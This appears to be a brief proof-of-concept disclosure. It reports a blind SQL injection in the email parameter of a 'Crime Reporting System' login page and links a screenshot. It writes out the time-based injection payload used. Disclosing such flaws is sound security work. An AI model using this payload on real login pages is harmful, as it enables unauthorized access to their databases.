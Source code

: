 ## Crime Reporting System sustained to the attack Blind SQL Injection at the login page on email parameter.

Payload used --> 'or sleep(5)#

<img src="https://raw.githubusercontent.com/saitamang/POC-DUMP/main/Crime%20Management%20System/img/sqli.png" title="me">
